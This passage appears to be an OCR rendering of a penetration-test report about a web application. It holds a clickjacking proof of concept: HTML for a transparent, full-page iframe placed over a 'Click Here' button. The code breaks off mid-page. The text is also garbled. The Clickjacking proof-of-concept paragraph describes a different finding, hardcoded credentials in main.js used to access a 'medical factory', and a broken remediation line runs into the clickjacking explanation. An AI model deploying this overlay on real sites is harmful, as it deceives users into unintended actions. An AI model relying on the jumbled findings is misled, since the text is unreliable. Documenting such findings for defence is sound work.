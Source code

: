 ![](https://raw.githubusercontent.com/blitz0p3rations/blitz0p3rations.github.io/master/uploads/ad5.png)

## Vulnerability Types Distribution

![](https://raw.githubusercontent.com/blitz0p3rations/blitz0p3rations.github.io/master/uploads/ad6.png)

## Attack storyline and findings
### Clickjacking
- CVSS Vector: None
#### Proof of Concept (PoC) 
The Proof of Concept (PoC) demonstrates the identification of a security issue in the "main.js" file of the application. By analyzing this file, sensitive credentials were discovered, which were then exploited to gain unauthorized access to the medical factory.
#### Remediations
- Never expose hardcoded secrets](<A missing HTTP header (X-Frame-Options) in the target web application has left customers vulnerable to clickjacking. Clickjacking is an attack that occurs when an attacker uses a transparent iframe in a window to trick a user into clicking on an actionable item, such as a button or link, to another server in which they have an identical webpage. The attacker essentially hijacks the user activity intended for the original server and sends it to the other server. This is an attack on both the user and the server.

Here's a simple Proof of Concept (PoC) for the Clickjacking attack:

1. Create an HTML page that contains your legitimate content. Let's call it "legit.html":
`
%3C!DOCTYPE html%3E
<html>
<head>
    <title>Legitimate Page</title>
</head>
<body>
    <h1>Welcome to Our Website</h1>
    <p>This is some important content.</p>
</body>
</html>
`

1. Create another HTML page that contains an invisible iframe that overlays the legitimate content. Let's call it "malicious.html":
`
<!DOCTYPE html>
<html>
<head>
    <title>Malicious Page</title>
    <style>
        iframe {
            position: absolute;
            top: 0;
            left: 0;
            width: 100%;
            height: 100%;
            opacity: 0;
        }
    </style>
</head>
<body>
    <iframe src="legit.html"></iframe>
    <h1>Click Me!</h1>
    <button onclick="performAttack()">Click Here</button>
